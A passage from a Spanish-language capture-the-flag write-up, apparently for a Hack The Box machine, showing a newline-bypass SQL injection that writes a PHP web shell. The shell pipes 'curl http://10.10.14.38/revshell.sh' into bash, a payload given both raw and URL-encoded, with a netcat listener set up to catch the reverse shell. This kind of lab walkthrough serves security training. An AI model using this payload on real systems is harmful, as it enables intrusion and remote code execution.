 Para eludir esta verificación, debemos enviar el valor con saltos de línea aplicando el método de codificación URL (urlencoded) `%0A`.

Lo que haremos es ejecutar una consulta, la cual escriba un payload especifico en un archivo dentro de una ruta del sistema en la cual tengamos permisos de escritura.
En este caso, la ruta en la cual guardaremos nuestro payload es `/var/lib/mysql`.

El payload que enviaremos es el siguiente:

```bash
';select '<?php system("curl http://10.10.14.38/revshell.sh|bash") ?>' into outfile '/var/lib/mysql/a.php'#1
```

Pero debemos codificarlo usando el método de codificación URL (urlencoded).

```bash
%0A'%3bselect+'<%3fphp+system("curl+http%3a//10.10.14.38/revshell.sh|bash")+%3f>'+into+outfile+'/var/lib/mysql/a.php'%231
```

Luego, creamos un archivo `.sh` que contenga nuestra reverse shell.

![Reverse Shell](/assets/img/htb/zipping/zipping-43.png)
_Reverse Shell_

Creamos un servidor HTTP con Python para compartir nuestra reverse shell.

![Python HTTP Server](/assets/img/htb/zipping/zipping-44.png)
_Python HTTP Server_

Nos ponemos en escucha con `nc` (netcat) por el puerto `4444`.

![nc listener](/assets/img/htb/zipping/zipping-45.png)
_nc listener_

Ejecutamos la petición.

![Burp Suite Repeater](/assets/img/htb/zipping/zipping-42.png)
_Burp Suite Repeater_
